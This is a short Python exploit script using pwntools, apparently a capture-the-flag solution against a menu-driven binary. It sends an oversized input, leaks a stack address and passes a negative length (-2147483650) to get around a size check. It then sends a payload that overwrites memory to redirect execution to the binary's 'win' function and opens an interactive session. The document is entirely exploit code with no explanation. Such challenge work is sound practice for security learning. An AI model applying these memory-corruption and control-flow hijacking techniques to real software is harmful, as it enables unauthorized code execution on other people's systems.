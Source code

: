 ``` 


p.sendlineafter(b't\n', b'3')
p.sendlineafter(b':\n', b'A' * 1022)

p.sendlineafter(b't\n', b'4')
p.sendlineafter(b': ', b'1016')
p.sendlineafter(b': ', b'8')
p.sendline(b'B' * 7)


p.sendlineafter(b't\n', b'2')
p.recvuntil(b'B' * 7 + b'\n')
stack_leak = fixleak(p.recvline()[:-1])
log.success(f'stack leak @ {hex(stack_leak)}')

 
debug(p)


p.sendlineafter(b't\n', b'4')
p.sendlineafter(b': ', b'1016')
p.sendlineafter(b': ', b'-2147483650')
payload = b'C' * 8
payload += p64(stack_leak)
payload += p64(0x400) * 2
payload += p64(0xdeadbeef) * 2
payload += p64(exe.sym.win)
p.sendline(payload)


p.sendlineafter(b't\n', b'6')
p.interactive()
```


